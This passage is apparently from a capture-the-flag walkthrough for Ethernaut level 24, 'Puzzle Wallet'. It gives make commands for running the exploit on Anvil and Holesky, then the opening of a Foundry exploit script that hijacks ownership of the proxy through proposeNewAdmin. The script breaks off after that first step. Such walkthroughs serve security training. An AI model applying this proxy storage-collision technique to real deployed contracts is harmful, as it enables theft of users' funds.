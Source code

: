 ```solidity
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-1

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-1

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/2115458fb47e0c4e09d72c743cbfc6de865611a8/script/Level24.s.sol" %}

{% code title="script/Level24.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                    LEVEL 24 - PUZZLE WALLET                  │
// ================================================================
interface IPuzzleProxy {
    function proposeNewAdmin(address _newAdmin) external;
}

interface IPuzzleWallet {
    function addToWhitelist(address addr) external;
    function setMaxBalance(uint256 _maxBalance) external;
    function multicall(bytes[] calldata data) external payable;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IPuzzleProxy puzzleProxy = IPuzzleProxy(targetContractAddress);
        IPuzzleWallet puzzleWallet = IPuzzleWallet(targetContractAddress);

        vm.startBroadcast();

        // Make msg.sender the owner of the PuzzleWallet
        // contract by calling proposeNewAdmin on the PuzzleProxy contract
        puzzleProxy.proposeNewAdmin(msg.sender);

```
